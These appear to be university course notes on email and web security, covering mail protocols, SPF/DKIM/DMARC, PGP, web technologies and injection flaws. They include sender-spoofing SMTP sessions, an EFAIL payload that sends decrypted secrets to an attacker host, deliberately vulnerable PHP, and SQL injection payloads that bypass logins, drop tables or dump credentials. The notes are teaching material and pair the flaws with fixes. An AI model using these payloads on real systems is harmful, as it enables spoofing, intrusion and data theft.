






# Web Security and Privacy

[[_TOC_]]

## Web Security

###  Theory

#### Email security

- How it works
  - Internet email architecture
    - How was
    
      

    - How is now: we use web based clients now, so these protocols are transparent to the user; we don’t have a MUA but we tend to use a web client (e.g., GMAIL), which often uses proprietary protocol to communicate with the MSA/MTA/MDA
    - How to know the next hop (because we can have multiple hops): `dig example.com MX`
    - Retrieving emails
      - POP
        - Download and delete operations
        - Messages are locally stored
        - Messages are fetched by the client and then deleted from the server
        - Connection established only when fetching messages
        - POP3 supports SSL/TLS (default port: 995)
      - IMAP
        - Permit even different clients to access the same mail box
        - A copy of the message is left on the server even when fetched by a client
        - The connection is kept on while the client is browsing the email (faster response time)
        - Message state information: read, replied, or deleted
        - Server-side searches (which could increase the load)
        - IMAP supports SSL/TLS (default port: 993)
    - Delivering emails
      - SMTP: `HELO, MAIL FROM, RCPT TO, DATA, VRFY/EXPN, TURN, AUTH, RSET, HELP, QUIT`
      - ESMTP: `EHLO, STARTTLS, SIZE, 8BITMIME, ATRN, CHUNKING, DSN, ETRN, PIPELINING, SMTPUTF8, UTF8SMTP`
        - Support for encrypted connections on SSL/TLS
    - Message format

      

      - Envelope: contain minimal info about sender/receiver that can be quickly processed by SMTP servers along the route (possibly multi hops); message headers instead may contain a lot of info, which are mostly useful to the last SMTP server
        - Main fields
          - `MAIL FROM`: bounce address (where to send back the message in case of failure), aka `RETURN PATH, REVERSE PATH, BOUNCE ADDRESS`
          - `RCPT TO`: receiver's address, which may be more than one
      - Header
        - Fields
          - From: email address and optionally the name of the author(s)
            - Can be different from MAIL FROM!
          - Date: local time and date when the message was written
          - To: email address(es), and optionally name(s) of the message's recipient(s)
            - Can be different from RCPT TO!
          - Subject: brief summary of the topic of the message
          - Cc: carbon copy
          - Bcc: blind carbon copy
          - Content-Type: information about how the message is to be displayed (e.g., a MIME type)
          - Content-transfer-encoding: encoding used by the content
          - Message-ID: automatically generated; used to prevent multiple delivery and for reference in In-Reply-To
          - References: message-id of the message that this is a reply to, and the message-id of the message the previous reply was a reply to
          - Reply-To: address that should be used to reply to the message
          - In-Reply-To: message-id of the message that this is a reply to; used to link related messages together
          - Sender: address of the actual sender acting on behalf of the author listed in the From field 
          - Archived-At: direct link to the archived form of an individual email message
          - Received: when an SMTP server accepts a message it inserts this trace record at the top of the header (last to first)
          - Return-Path: when the delivery SMTP server makes the final delivery of a message, it inserts this field at the top of the header
          - Auto-Submitted: is used to mark automatically generated messages
          - ...
    - Example of mail sending
      - ssmtp with a ESMTP Server
        ```
        > cat /etc/ssmtp/ssmtp.conf
        
        FromLineOverride=YES
        hostname=webhack.it           // my domain
        root=noreply@webhack.it
        mailhub=smtps.aruba.it:465    // ESMTP server that will accept ($$$) to deliver mails for my domain
        AuthUser=noreply@webhack.it   // username for authentication
        AuthPass=<password>           // password for authentication
        AuthMethod=LOGIN              // username and password will be sent in BASE64
        UseTLS=YES                    // the connection is encrypted with TLS
        ```
        ```
        > ssmtp -v coppa@diag.uniroma1.it < mail.txt
        [<-] 220 smtpdh15.ad.aruba.it Aruba Outgoing Smtp  ESMTP server ready
        [->] EHLO webhack.it
        [<-] 250 OK
        [->] AUTHLOGIN
        [<-] 334 VXNlcm5hbWU6           // this is “Username:” in base64
        [->] <base64-encoded-username>
        [<-] 334 UGFzc3dvcmQ6           // this is “Password:” in base64
        [->] <base64-encoded-password>
        [<-] 235 2.7.0 ... authentication succeeded
        [->] MAIL FROM:<noreply@webhack.it>
        [<-] 250 2.1.0 <noreply@webhack.it> sender ok
        [->] RCPT TO:<coppa@diag.uniroma1.it>
        [<-] 250 2.1.5 <coppa@diag.uniroma1.it> recipient ok
        [->] DATA                       // We ask permission to send the other parts of the message
        [<-] 354 OK                     // Now, we should send the message header and body
        [->] Received: by webhack.it (sSMTP sendmail emulation); Mon, 02 Aug 2021 14:51:59 +0200
        [->] Date: Mon, 02 Aug 2021 14:51:59 +0200
        [->] Bcc:noreply@webhack.it
        [->] From:noreply@webhack.it
        [->] Subject: This is an email
        [->]                        // double \r\n to separate the header and the body
        [->] 
        [->] AAAA
        [->] .                      // \r\n.\r\n to notify end of the DATA
        [<-] 250 2.0.0 AXQFmbkIsrXl6AXQGmdGvl mail accepted for delivery
        [->] QUIT
        [<-] 221 2.0.0 smtpdh01.ad.aruba.it Aruba Outgoing Smtp  closing connection 
        ```
      - Manual session
        ```
        > openssl s_client -connect smtps.aruba.it:465 -crlf -ign_eof
        220 smtpdh06.ad.aruba.it Aruba Outgoing Smtp  ESMTP server ready
        > EHLO aasass.com           // Fake
        250-smtpdh06.ad.aruba.it hello [5.171.189.7], pleased to meet you
        > AUTH PLAIN XXXXXXXXXX==   // echo -ne '\00username\00password' | base64
        235 2.7.0 ... authentication succeeded
        > MAIL FROM: test@test.com  // Spoofed address
        250 2.1.0 <test@test.com> sender ok
        > RCPT TO: coppa@diag.uniroma1.it
        250 2.1.5 <coppa@diag.uniroma1.it> recipient ok
        > DATA
        354 OK
        > FROM: prova@prova.com     // Spoofed address
        >
        > A\nB\nC
        > .
        250 2.0.0 KhX3m1L40xC2nKha6mmKAG mail accepted for delivery
        ```
      - Result (same for the two methods)

        

        - Happens like this because the domain is new and "trusted"; if I will start doing something nasty with this domain it will be no more trusted
        - There exist open mail relays where you can do this but without buying a server!
          ```
          $ telnet new.toad.com 25
          Trying 75.101.100.43...
          Connected to new.toad.com.
          Escape character is '^]'.
          HELO sheldoncooper.com
          220 hop.toad.com ESMTP Sendmail 8.12.9/8.12.9; Sat, 25 Sep 2021 07:21:34 -0700
          250 hop.toad.com Hello ppp-251-240.28-151.wind.it [151.28.240.251] (may be forged), pleased to meet you
          MAIL FROM: sheldoncooper@tbbt.com
          250 2.1.0 sheldoncooper@tbbt.com... Sender ok
          RCPT TO: coppa@diag.uniroma1.it
          250 2.1.5 coppa@diag.uniroma1.it... Recipient ok
          DATA
          354 Enter mail, end with "." on a line by itself
          FROM: sheldoncooper@tbbt.com
          SUBJECT: BAZINGA!!!
          
          Hi mate, BAZINGA!
          
          .
          250 2.0.0 18PELY9S017497 Message accepted for delivery
          221 2.0.0 hop.toad.com closing connection
          Connection closed by foreign host.
          ```
          - But in this case the result will be less trusted

            
          
    - Send richer content in the body
      - SMTP supports only ASCII content; exploiting Content-Type and Content-transfer-encoding, MIME allows to encode the content with
        - Base64
        - Quoted-printable (QP)
        - Binary
      - When the ESMTP server advertises 8BITMIME, we could directly send 8-bit data; for compatibility reasons, MIME with (BASE64, QP) is often the preferred choice
      - Multipurpose internet mail extensions (MIME)
        - Information
          - Text in character sets other than ASCII
          - Non-text attachments
          - Message bodies with multiple parts
          - Header information in non-ASCII character sets
          - Used also by other protocols, e.g., HTTP
        - How it works

          

        - Headers

          

          - Type and subtype table

            

            - Multipart subtypes
              - Mixed: for sending files with different Content-Type headers
                ```
                From: Some One <someone@example.com>
                MIME-Version: 1.0
                Content-Type: multipart/mixed; boundary="XXXXboundary text"
                
                This is a multipart message in MIME format.
                
                --XXXXboundary text
                Content-Type: text/plain
                
                this is the body text
                
                --XXXXboundary text
                Content-Type: text/plain;
                Content-Disposition: attachment; filename="test.txt"
                
                this is the attachment text
                
                --XXXXboundary text--
                ```
              - Digest: to send multiple text messages
              - Message: contains any MIME email message, including any headers
              - Alternative: each part is an alternative version of the same (or similar) content (e.g., text + HTML)
                ```
                MIME-Version: 1.0
                Content-Type: multipart/alternative; boundary="----=_Part_804988_864270330.1627985944031"
                
                ------=_Part_804988_864270330.1627985944031
                Content-Type: text/plain;charset=UTF-8
                Content-Transfer-Encoding: quoted-printable
                Content-ID: text-body
                
                Dear Emilio, [....]
                
                ------=_Part_804988_864270330.1627985944031
                Content-Type: text/html;charset=UTF-8
                Content-Transfer-Encoding: quoted-printable
                Content-ID: html-body
                
                <html>[...]Dear Emilio,<br>[...]</html>
                
                ------=_Part_804988_864270330.1627985944031--
                ```
      - Base64: encoding scheme that allows to encode any data into ASCII characters encoding each block of 6 bits into a 8-bit ASCII values
        - Content-Type:text/plain; charset=ISO-8859-1
        - Content-transfer-encoding: base64

        

      - Quoted-printable encoding
        - Any 8-bit byte value may be encoded with 3 characters: an `=` followed by two hexadecimal digits (`0–9 or A–F`) representing the byte's numeric value
        - Non 8-bit byte values are ASCII chars from 33 to 126 (excluded 61, the `=` sign)
        - Special cases for SPACE and TAB

        

- Privacy and security risks
  - Risks
    - Spamming: unwanted messages (junk mail)
      - Disable HTML message
      - Don't click links
      - Don't open attachments
    - Tracking: track user actions (all web companies are tracking us)
      - Whether the email was read: the email address is valid and the user likely read the content
      - Info (browser, device, IP, etc.) about the user sent by the browser when opening mail
        - External images: a unique URL is associated to each email message and the attacker only needs to check the access log on its server
        - Shortened URL: if the user opens the URL, a page tracks its info and immediately redirect him to a valid page (also through the unsubscribe button)
    - Phishing: social engineering attacks based on a fraudulent ("spoofed") message
      - General: mass campaign targeting millions of users; typically, the user can detect them due to typos and inconsistencies
      - Spear: targeted attack to a category of users or even a specific single user (done by a motivated attacker); hard to detect for 99% of the users
- Email validation systems
  - Sender Policy Framework (SPF): prevents e-mail spam by detecting email spoofing through verification of sender IP addresses
    - How it works

      

      
    
    - Problems
      - SPF only validates the Return-Path but does nothing for From, which is the most frequently spoofed field
      - SPF breaks when a message is forwarded (true only for some forwarding methods): the Sender’s IP is not the expected one; however, there could be good reasons to forward emails
      - Just because a message fails SPF, doesn’t mean it will always be blocked from the inbox; it’s one of several factors email providers take into account
      - SPF does not authenticate the mail content: what if the content has been altered?
  - DomainKeys Identified Mail (DKIM): allows to check that incoming mail from a domain is authorized by that domain's administrators and that the email (including attachments) has not been modified during transport
    - How it works

      
      
      

      - Brisbane: name that identify the pair of keys
    - Problems
      - Messages could be modified while in transit, potentially invalidating the signature 
        - Mitigation: DKIM defines CANONICALIZATION rules that allows to tolerate specific changes to some header fields or the body content; these rules may be not enough in some scenarios (e.g., a mailing list is forwarding a message, modifying the subject and the content)
      - DKIM does not provide confidentiality
      - Domain listed in the DKIM Signature doesn't need to be the same as the one in From
  - Domain-based Message Authentication, Reporting and Conformance (DMARC):  allows a domain to say what to do with a message when DKIM/SPF fails and how to report abuses; the policy is published with a DNS TXT record
    - How it works

      

      

      

    - Reports: generated by inbound mail servers as part of the DMARC validation process
      - Aggregate reports: XML documents with statistical data about the messages from a domain
      - Forensic reports: individual copies of messages which failed authentication, each enclosed in a full email message using a special format called AFRF
  - Authenticated Received Chain (ARC): a message may traverse a chain of SMTP server; ARC validates the entire chain, even when the message could have been modified (for good reasons)
    - Additional headers: each hop in the chain signs the message
      - ARC-Authentication-Results: combination of an instance number and the results of the SPF, DKIM, and DMARC validation
      - ARC-Seal: combination of an instance number, a DKIM-like signature of the previous ARC-Seal headers, and the validity of the prior ARC entries
      - ARC-Message-Signature: combination of an instance number and a DKIM-like signature of the entire message except for the ARC-Seal headers
    - Example: 4 hops

      

      - Hop 1

        

      - Hop 2

        

      - Hop 3

        

- Spam analysis (before validation systems)

  

  - First `Received` header
    ```
    Received: from User ([41.203.64.130]) (envelope-sender <mrjamicewilliamshotmail.com>) by 121.52.214.219 with ESMTP for <damon@euroa-gazette.com.au>; Sat, 10 Mar 2012 07:45:31 +0800
    ```
    - `41.203.64.130`: Nigeria, IP correlated to spam
    - `121.52.214.21`: China, IP correlated to spam
    - `euroa-gazette.com.au`: probably a violated website
  - Second `Received` header
    ```
    Received: from mial.uictech.com.cn (unknown [121.52.214.219])by webmail.dis.uniroma1.it (Postfix) with SMTP id 1BD9026AF0A for <damore@dis.uniroma1.it>; Sat, 10 Mar 2012 00:47:01 +0100 (CET)
    ```
    - `mial.uictech.com.cn` = `121.52.214.21`
  - Result
    - Message from Nigeria to China (with claimed final destination in Australia), then from China to Italy looks scarcely convincing 
      - There seems to be no reason why the Chinese server has delivered it to server in Sapienza (no explicit recipients of Sapienza are written in message)
    - Identity of Chinese server appears to be reasonably assured, since it is confirmed by Sapienza server
    - Initial Nigerian origin is only attested by Chinese server
    - This is a phishing campaign
- End user email security
  - User needs (validation systems do not provide these properties to the end-user)
    - Confidentiality: protection from disclosure
    - Authentication (of sender of message)
    - Message integrity: protection from modification
    - Non-repudiation of origin: protection from denial by sender
  - Pretty good privacy (PGP)
    - How it works
      - Encryption

        

      - Authentication

        
    
    - Issues
      - How to embed the signature/encrypted content into a message?
        - There's not a standard way
        - It could be appended as an attachment
        - It could be appended at the end of the message
        - Usually implementations will adopt one approach but then try to handle also other approaches 
      - How to get the public key of other users?
        - Using a CA (a bit centralized)
        - Web of Trust (no more works)
          - Each user keep a list of (trusted) public keys of other users
          - He will sign these keys: other users may thus trust these keys if they trust who signed them
          - More complex policies: trust a public key only when K trusted users are trusting it
        - The public key is attached to the email
          - Should we trust the PK attached to the mail? NO
          - **The idea is that each user has its own way to certify its own identity**
        - The public key can be fetched from a key server
          - Public servers: doesn't verify the identity of the user who uploaded the PK
            - Ubuntu key server: any user can upload a PK, faking the key metadata
            - OpenPGP key server: a validation email is sent to the address claimed by the PK
          - Private servers: organizations may track PK of their users; it works but requires special ways of validating the PK (cannot scale for all internet users)
    - Tutorial
      - Create a new key pair: `gpg --gen-key`
      - Export public key: `gpg --armor --export email@domain.com`
      - Import public key of another user: `gpg --import file.asc`
      - Import public of another user from a public server: `gpg --recv-keys XYZ`
      - Trust imported key: `gpg --sign-key email@example.com`
      - Encrypt a file: `gpg --encrypt --armor -r person@email.com file.ext`
      - Sign a file: `gpg --sign --armor file.ext`
      - Encrypt and sign: `gpg --encrypt --sign --armor -r person@email.com file.ext`
      - Decrypt and/or check signature: `gpg file.ext.asc`
  - Secure/Multipurpose Internet Mail Extensions (S/MIME)
    - Similar to PGP, the difference is that the trust model is based on X.509 certificates and CAs
    - Not so adopted by standard users
  - Attack in email security: EFAIL
    - Attacker may access the decrypted content of an email if it contains active content like HTML or JavaScript, or if loading of external content has been enabled in the client
    - How
      - Suppose the attacker has a copy of encrypted message
        ```
        Content-Type: application/pkcs7-mime;  s-mime-typed-envelope-dataContent-Transfer-Encoding: base64<base64-ENCRYPTEDMESSAGEENCRYPTEDMESSAGEENCRYPTEDMESSAGEENCRYPTEDMESSAGE>
        ```
      - Send this message to the sender of the encrypted message
        ```
        [...]
        Content-Type:multipart/mixed;boundary="BOUNDARY"
        [...]
        --BOUNDARYContent-Type:text/html
        
        
        --BOUNDARY
        ```
      - The client of the user who encoded automatically performs the decryption, replacing the plaintext into the message
        ```
        [...]
        Content-Type:multipart/mixed;boundary="BOUNDARY"
        [...]
        --BOUNDARY
        Content-Type:text/html
        
        <imgsrc="http://attacker.chosen.url/
        DECRYPTED-SECRET
        ">
        --BOUNDARY
        ```
        - If the client is rendering the HTML code, this will trigger a HTTP request for retrieving the image `http://attacker.chosen.url/DECRYPTED-SECRET` which will leak the secret content to attacker

#### Web technologies

- HTTP
  - Uniform resource locator (URL)

    

    - Some elements are optional
    - When reserved characters (like space : ? /) need to be used in the URL, they must be URL-encoded
  - HTTP protocol
    - Stateless: different requests are processed independently from each other
      - Cookies are used to implement stateful applications on top of HTTP
    - Not encrypted
    - Default port for HTTP is 80
  - HTTPS protocol
    - Secure variant of HTTP
    - HTTP traffic delivered over a TLS connection
    - Default port is 443
  - HTTP request

    

  - HTTP response

    

- Languages
  - Client-side
    - HTML
    - CSS
    - JavaScript
  - Server-side
    - Python
    - NodeJS
    - Java
    - C#
    - PHP
    - ...
- Quick and dirty HTTP server
  - Command: `python3 -m http.server 8000`
  - Current working directory is the root for the web server
- Quick and dirty HTTP+PHP server
  - Command: `php -S 0.0.0.0:8000`
  - Current working directory is the root for the web server
- Quick and dirty HTTP/Python server
  - Install: `pip3 install flask`
  - Example app: `app.py`
    ```python
    from flask import Flask, request
    
    app = Flask(__name__)
    
    @app.route("/")
    def hello_world():
      return "<html>\n<body>\n<p>Hello %s</p></body></html>" % request.args.get('name')
    ```
  - Run: `python3 -m flask run`
- How to make our server reachable from the internet
  - Ngrok: make our server reachable (possibly even with HTTPS); this will work even without a firewall (port forwarding) and without a (dynamic) domain
    1. Spawn your local HTTP server on port X
    2. Download and install ngrok
    3. Register an account and get the authtoken
    4. Configure the authtoken: `ngrok authtoken <auth_token>`
    5. Run: `ngrok http X`
- HTTP/2 and HTTP/3
  - HTTP/2
    - Goals
      - Data compression of HTTP headers
      - HTTP/2 Server Push
      - Pipelining of requests
      - Fixing the head-of-line blocking problem in HTTP 1.x
      - Multiplexing multiple requests over a single TCP connection
    - Head-of-line blocking problem in HTTP 1.x
      - HTTP pipelining is a way to send another request while waiting for the response to a previous request; the idea is to avoid to perform several parallel requests since the setup time for each request could be huge
        - Problem: suppose request B is “queued” (in the pipeline) after request A, what happens if request A requires a long processing time?
        - Hard to choose how to “queue” the requests
    - HTTP/2 news
      - The client can request an upgrade of the connection using the HTTP/1 Request Header to HTTP/2
      - HTTP2 is a binary protocol, while HTTP is based on ASCII
        - The binary protocol allows to efficiently perform multiplexing within one connection:
          - Stream: bidirectional bytes flow within a connection, carrying one or more messages
          - Message: sequence of frames that map to a logical request or response message
          - Frame: smallest unit of communication in HTTP/2, each containing a frame header, which at a minimum identifies the stream to which the frame belongs

          

  - HTTP/3
    - HTTP/2 addresses head-of-line blocking (HOL) through request multiplexing, which eliminates HOL blocking at the application layer, but HOL still exists at the transport TCP layer
    - Backward compatible
    - Based on QUIC, a general-purpose transport layer network protocol designed by Google, which come with two main features:
      - Switch from TCP to UDP
      - Integrate into the protocol exchange of setup keys and supported protocols part of the initial handshake process: this reduces overhead for the setup of TLS
- Cookies
  - HTTP is stateless, cookies are useful to maintain a session
    - Session data is stored on the server with a unique session ID; the client attaches the session ID to each request
  - How it works
    - Cookies set by websites are automatically attached by the browser to subsequent requests to the same website
    - Cookie attributes (e.g., Domain, Path, Secure, HttpOnly) can be used to customize the cookie behavior
    - A cookie is identified by the triplet (name, domain, path)

    

  - Practically
    - Javascript 
      - Setting a new cookie: `document.cookie = "username=John Doe; expires=Thu, 18 Dec 2013 12:00:00 UTC; path=/";`
      - Read all cookies: `let x = document.cookie;`
      - Delete a cookie: `document.cookie = "username=; expires=Thu, 01 Jan 1970 00:00:00 UTC; path=/;";` (just change expiration date to past)
    - PHP
      - Set cookie: `setcookie("user", "John Doe", time() + (86400 * 30), "/");`
      - Get cookie: `echo $_COOKIE["user"];`
      - Delete cookie: `setcookie("user", "", time() - 3600);`
  - Usage of cookies
    - Authentication
    - Personalization
    - Tracking
      - Third party cookies
        - A page can host contents coming from other web servers (third-party cookies)
        - There are organizations operating in the advertisement that use third-party cookies for tracking users across different sites, allowing ads consistent to user profile (privacy problem)
- Storage (web storage or DOM storage)
  - General infos
    - Modern browsers allow a web application to store (key, value) pairs on the client
      - Session Storage: kept only for the current session
      - Local Storage: permanent across sessions
    - The key and value can only be strings
    - Maximum size for the whole storage is typically 5MB
    - Web Storage is NOT encrypted
  - Cookie vs Web storage
    - Cookies keep track of data in the client for the server (they are attached to each request), Web Storage keeps track of data only for the client (server cannot access it, however the client may still send its content to the server)
    - Cookies have a maximum size of 4KB, Web Storage is designed with a larger capacity in mind
    - Not always clear what happens if two tabs edit the same cookie at the same time, Web Storage uses DB transactions to deal with concurrent operations
    - Cookies come with very old API which may lead to some security risks, API for Web Storage were designed later and “should” be better
  - Practically
    - Javascript
      - `localStorage.setItem("lastname", "Smith");`
      - `console.log(localStorage.getItem("lastname”));`
      - `localStorage.removeItem("lastname”);`
- Document Object Model (DOM)
  - General infos
    - Cross-platform and language-independent interface that treats an XML or HTML document as a tree structure
    - Each node is an object representing a part of the document
    - Javascript can thus easily modify the a page by modifying the HTML DOM
  - Practically

    

    - Javascript
      - Retrieve element: `document.getElementById(id), document. getElementsByTagName(name), document.getElementsByClassName(name)`
        - Example: `document.getElementById("demo").innerHTML = "Hello World!";`
          - `<p id="demo"></p> <p id="demo">Hello World!</p>`
      - Given an element, it can be modified using `element.innerHTML` (element content), `element.<attribute>` (modify an attribute), `element.style.<property>` (modify a CSS property)
      - Given an element, we can modify its subtree with: `element.appendChild(element2), element.replaceChild(old, new), element.removeChild(element2)`
      - Create a new element: `document.createElement(<tagname>)`
- Modern web applications
  - Old approach: hard to scale, not easy to support other devices

    

  - New approach: client builds the page requesting data from the servers, work moved to client

    

    - Single-Page Application (SPA) paradigm
      - Only a single page that is doing all the work, depending on the URL, the page is built and rendered in different ways
      - When the user clicks something, the page performs a REST request, waits for the response and then renders the new content
      - The client framework dynamically modifies the DOM
      - There is no need thus reload from scratch the page for each user interaction
    - Based on WebSockets
      ```javascript
      const socket = new WebSocket('ws://example.com:1234/updates');
      
      // Fired when a connection with a WebSocket is opened
      socket.onopen = function () {
        setInterval(function() {
          if (socket.bufferedAmount == 0)
            socket.send(getUpdateData());
        }, 50);
      };
      
      // Fired when data is received through a WebSocket,
      socket.onmessage = function(event) {
        handleUpdateData(event.data);
      };
      ```
- Web authentication
  - Basic (not used)
    1. The client request a page, e.g.: `GET / HTTP/1.1`
    2. The server replies with
       ```
       HTTP/1.1 401 Unauthorized
       WWW-Authenticate: Basic realm=<name-realm>
       ```
    3. The client gets the username/password from the user with, e.g., a popup and sends:
       ```
       GET / HTTP/1.1
       Authorization: Basic <BASE64(username:password)>
       ``` 
  - Digest (rarely used)
    1. The client request a page, e.g.: `GET / HTTP/1.1`
    2. The server replies with:
       ```
       HTTP/1.1 401 Unauthorized
       WWW-Authenticate: Digest realm=<name-realm> nonce=<nonce>opaque=<opaque> algorithm=<algorithm> qop=auth
       ```
       - `algorithm` is a cryptographically secure hash function (default: MD5)
    3. The client gets the username/password from the user with, e.g., a popup and sends:
       ```
       GET / HTTP/1.1
       Authorization: Digest realm=<name-realm> nonce=<nonce> user=<user> opaque=<opaque> response=<digest> nc=<counter> cnonce=<cnonce>
       ```
       - `digest = HASH(HASH(<username>:<name-realm>:<passwd>):<nonce>:<counter>:<cnonce>:auth:HASH(GET:/))`
  - OAuth and Single Sign On (SSO)

    

    - IdP (identity provider): Google, Facebook...

#### Web security

- Vulnerability: weakness which allows an attacker to reduce system's information assurance
  - A vulnerability is the intersection of three elements
    - A system susceptibility or flaw
    - Attacker access to the flaw
    - Attacker capability to exploit the flaw
  - Lifecycle

    

    

  - Disclosure policy
    - Full Vendor Disclosure
      - Promotes secrecy
      - Gives full control of the process to the vendor
      - Vendor could decide to delay the patch to the vulnerability
    - Immediate Public Disclosure
      - Promotes transparency
      - Gives the vendor a strong incentive to fix the problem
      - Allows vulnerable users to take intermediate measures
      - Immediate exposure to risks
    - Hybrid Disclosure
      - Promotes both secrecy and transparency
- Type of attackers
  - Web Attacker
    - Attacker controls the domain attacker.com, for which it can acquire a valid TLS certificate; the user visits attacker.com
    - Variation “gadget attacker”: an iframe with malicious content included in an otherwise honest webpage visited by the user
    - Variation “related-domain attacker”: the attacker controls a related-domain of the target website, e.g., attacker.example.com
    - The attacker is a user of a website; the target could be the website or other users and the website should be vulnerable to some attacks
  - Network and Malware Attackers
    - Network
      - Passive: wireless eavesdropper
      - Active: evil Wi-Fi router, DNS poisoning
    - Malware attacker
      - Malicious code executes directly on victim’s computer
      - Software bugs, malware, ...
- Problems of the Web Ecosystem: everyone can create a website, this creates problems (based on the fact that devs aren't experienced)

##### Path traversal


- Example of vulnerable code
  ```php
  // show.php
  <?php
    echo file_get_contents("pages/" . $_GET["page"]);
  ?>
  ```
- Attack: “climb up” multiple levels in the directory hierarchy (and exit the webroot) by using `../` (Linux) or `..\` (Windows) and get access to any file on the web server

  

- Prevention
  - Ideally: don’t use user controlled input as (part of) filenames
  - In the real world: validate all user inputs (compute the canonical path of the required file and ensure it is not outside the webroot or the expected directory)
    - Patched version of the code (naive)
      ```php
      // show.php
      <?php
        $pdir = "/var/www/html/pages/";
        $file = realpath($pdir . $_GET["file"]);
        
        if ($file !== false && strncmp($file, $pdir, strlen($pdir)) === 0) {
          echo file_get_contents($file);
        } else {
          echo "Error: invalid input";
        }
      ?>
      ```
  - Defense in depth
    - Reduced privileges of web server
      - Restrict access of web server to its own directory
      - Use sandbox environment (chroot jail, SELinux, containers,...) to enforce boundary between web server and the OS
    - It should not be the only adopted defense mechanism

##### Command & code injection

- Command injection
  ```php
  // ping.php
  <?php
    system("ping -c 4 " . $_GET["ip"] . " -i 1");
  ?>
  ```

  

- Code injection
  ```php
  // calc.php
  <?php
    eval("echo " . $_GET["expr"] . ";");
  ?>
  ```

  

- Root cause: user input is provided as input to dangerous functions without prior validation
- Prevention
  - NEVER use function like `eval` that dynamically evaluate strings as code
  - Avoid functions that execute system commands and rewrite the code relying on them to use safer alternatives: several programs come with bindings for different languages
  - If you REALLY want to use functions that run system commands, remove/properly escape all special characters that break the syntax/have a special meaning for the target interpreter
  - Reduced privileges for web server
  - Use sandbox environment

##### SQL injection

- What is SQL: declarative language used for querying relational databases
- Example queries
  - Fetch records from a table: `SELECT* FROM users WHERE user='admin' AND password='1f4sdge!';`
  - Add new records into a table: `INSERT INTO users VALUES ('karl', 's3cr3t', 23);`
  - Update existing records: `UPDATE users SET age=age+1;`
  - Remove records from a table: `DELETE FROM users WHERE age<25;`
  - Remove a table from the database: `DROP TABLE users;`
- Basic injection
  ```php
  <? php
    $db = new PDO(CONNECTION_STRING, DB_USER, DB_PASS);
    $query = "SELECT * FROM users WHERE user = '" .$_POST["user"] . "' AND password = '" . $_POST["password"] . "'";
    $sth = $db->query($query);
    $user = $sth->fetch();
    if ($user !== false) {
      // authenticate as the selected user
      start_session();
      $_SESSION["user"] = $user["user"];
    } else {
      // login failure
    }
  ?>
  ```
  - Attack
    - Exploit
      - Input: `user = admin' --`, `password = whatever`
      - Crafted query: `SELECT * FROM users WHERE user = 'admin' -- ' AND password='whatever'`
      - The attacker authenticates as the administrator
    - Alternative exploit
      - Input: `user = admin`, `password = ' OR password LIKE '%` (`%` matches an arbitrary sequence of characters, the condition is always satisfied)
      - Crafted query: `SELECT * FROM users WHERE user='admin' AND password='' OR password LIKE '%';`
      - The attacker authenticates as the first user in the users table (less control with respect to the previous payload)
- Stacking queries
  - If stacked queries are enabled in the DB configuration, the attacker can perform a variety of attacks harming the integrity of the database
  - Examples
    - Add new user: `SELECT * FROM users WHERE user=''; INSERT INTO users (user, password, age) VALUES ('attacker','mypwd', 1) -- -' AND password='whatever'`
    - Change admin's password: `SELECT * FROM users WHERE user=''; UPDATE TABLE users SET password='newpwd' WHERE user='admin'-- -' AND password=''`
    - Drop user table: `SELECT * FROM users WHERE user=''; DROP TABLE users -- -' AND password='';`
- Pulling Data From Other Tables
  - Using the `UNION` keyword, the attacker can leak the content of other tables in the system (`' UNION SELECT user, password FROM users -- -`)
